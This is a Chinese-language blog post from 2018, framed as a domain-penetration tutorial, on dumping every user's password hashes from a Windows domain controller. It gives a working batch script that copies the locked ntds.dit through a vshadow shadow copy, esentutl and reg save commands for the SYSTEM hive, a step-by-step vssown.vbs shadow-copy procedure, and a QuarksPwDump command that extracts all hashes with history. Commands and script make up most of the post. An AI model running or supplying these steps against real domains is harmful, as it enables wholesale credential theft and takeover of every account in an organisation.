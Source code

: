 ```yaml
---
layout: post
title: 导出域内所有用户hash
date: 2018-12-09 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}


### \#0x00 写在前面 
域渗透过程简单来说：搞定域内某机器—获取域管登录凭证—登录域控导出所有用户hash—完毕  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/hashes.jpg?raw=true) 图片来源于https://www.youtube.com/watch?v=KnOJKRl7E0A

域内用户HASH是存在域控ntds.dit中的， 它的存放位置是C:\Windows\ntds.dit。ntds.dit在系统运行过程中是被系统锁定的，无法操作，因此第一步是先把ntds.dit复制一份出来，然后导出其中的用户hash。 




### \#0x01 拷贝ntds.dit
拷贝ntds.dit的方法有多种，这里说两种经常使用的。经过测试第一种方法导出的hash数量比第一种多，原因目前尚不知。  
windows系统中自带的工具vssadmin也可以很方便的拷贝ntds.dit，经过测试拷贝的ntds.dit不能直接用QuarksPwDump.exe导出hash，但可以使用impacket中的secretsdump.py导出hash，这种情况一般用在目标系统安装有python环境的情况下。  
#### 一、使用微软官方提供的卷影拷贝工具vshadow.exe复制ntds.dit  

现在官方不提供vshadow.exe的直接下载了，可以安装官方JDK，在安装目录下可以找到vshadow.exe，这里要注意操作系统的版本，特别是xp和server 2003。  
利用官方JDK生成vshadow.exe的方法虽然不用担心后门，但是操作实在麻烦，这里提供一个runtime的工具：[ShadowCopy](https://www.runtime.org/shadow-copy.htm)，安装后在安装目录下可以找到各系统版本对应的vshadow.exe。  


为了方便使用vshadow.exe，这里提供一个脚本：ShadowCopy.bat，内容如下：  
```
setlocal
if NOT "%CALLBACK_SCRIPT%"=="" goto :IS_CALLBACK
set SOURCE_DRIVE_LETTER=%SystemDrive%
set SOURCE_RELATIVE_PATH=\windows\ntds\ntds.dit
set DESTINATION_PATH=%~dp0
@echo ...Determine the scripts to be executed/generated...
set CALLBACK_SCRIPT=%~dpnx0
set TEMP_GENERATED_SCRIPT=GeneratedVarsTempScript.cmd
@echo ...Creating the shadow copy...
"%~dp0vshadow.exe" -script=%TEMP_GENERATED_SCRIPT% -exec="%CALLBACK_SCRIPT%" %SOURCE_DRIVE_LETTER%
del /f %TEMP_GENERATED_SCRIPT%
@goto :EOF
:IS_CALLBACK
setlocal
@echo ...Obtaining the shadow copy device name...
call %TEMP_GENERATED_SCRIPT%
@echo ...Copying from the shadow copy to the destination path...
copy "%SHADOW_DEVICE_1%\%SOURCE_RELATIVE_PATH%" %DESTINATION_PATH%
```
vshadow.exe和ShadowCopy.bat上传到域控的同一目录，执行完ShadowCopy.bat后，ntds.dit便会被复制到当前目录。  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vshadow_bat.jpeg?raw=true)

在导出hash之前，ntds.dit需要使用esentutl工具修复  
```
esentutl /p /o ntds.dit
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/esentutl.jpeg?raw=true)

导出ntds.dit后为了解密，还需要导出syskey   
```
reg save hklm\system c:\perflogs\system.hive
```

#### 二、使用vssown.vbs复制ntds.dit
vssown.vbs脚本在这里下载的：[vssown.vbs](https://github.com/PythonPig/pentest-tools/blob/master/password-cracking/vssown.vbs)  

查看vssown.vbs的使用方法：  
cscript vssown.vbs，主要的命令如下：  
```
cscript vssown.vbs /start
cscript vssown.vbs /list
cscript vssown.vbs /create c
cscript vssown.vbs /delete id
cscript vssown.vbs /stop
```
1、启动服务  
```
cscript vssown.vbs /start
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20start.jpeg?raw=true)

2、查看系统已有的快照并记录  
```
cscript vssown.vbs /list
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20list.jpeg?raw=true)

3、创建c盘快照  
```
cscript vssown.vbs /create c
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20create.jpeg?raw=true)

4、查看新增的快照  
```
cscript vssown.vbs /list
```
通过与第2步中的快照对比可知哪个快照是新增的，执行命令后最先显示出的快照一般是最新创建的。  
记录最新创建快照的ID和Device Object  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20list2.jpeg?raw=true)

5、从快照中拷贝ntds.dit和syskey  
本次操作需要使用第4步中得到的快照ID和Device Object  
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy140\windows\ntds\ntds.dit C:\perflogs
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy140\windows\system32\config\SYSTEM C:\perflogs\system.hive
```
拷贝ntds.dit：
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20copy%20ntds.jpeg?raw=true)  

拷贝syskey：
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20copy%20syskey.jpeg?raw=true)

syskey也可以这样导出  
```
reg save hklm\system c:\perflogs\system.hive
```

6、删除快照并停止服务  
```
cscript vssown.vbs /delete {D61DE4C9-029E-42E7-9A93-64529039FD54}
cscript vssown.vbs /stop
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20delete%20stop.jpeg?raw=true)

### \#0x02 从ntds.dit导出所有用户hash
因为ntds.dit文件一般比较大，传回本地不太方便，所以直接在目标服务器上导出用户hash。    

```
QuarksPwDump.exe --dump-hash-domain --with-history --ntds-file c:\perflogs\ntds.dit --system-file c:\perflogs\system.hive -o c:\perflogs\res.txt
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/quarkspwdump.jpeg?raw=true)

一定要注意这里要使用绝对路径，选项参数之间只能有一个空格，用到的[QuarksPwDump.exe在这里](https://github.com/quarkslab/quarkspwdump)，下载源码后vs2010直接编译即可

### \#0x03 参考
* [完整导出域内用户hash小记 (vshadow + ShadowCopy + QuarksPwDump)](https://klionsec.github.io/2016/08/14/shadow-copy-hash/)
* [导出域内用户hash的几种方法](https://cloud.tencent.com/developer/article/1165439)  
* [完整导出域内用户hash小记 (vssown.vbs + libesedb + NtdsXtract)](https://klionsec.github.io/2016/08/13/vssown-vbs-libesedb-NtdsXtract/)  
* [域渗透——获得域控服务器的NTDS.dit文件](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E8%8E%B7%E5%BE%97%E5%9F%9F%E6%8E%A7%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%9A%84NTDS.dit%E6%96%87%E4%BB%B6/)  



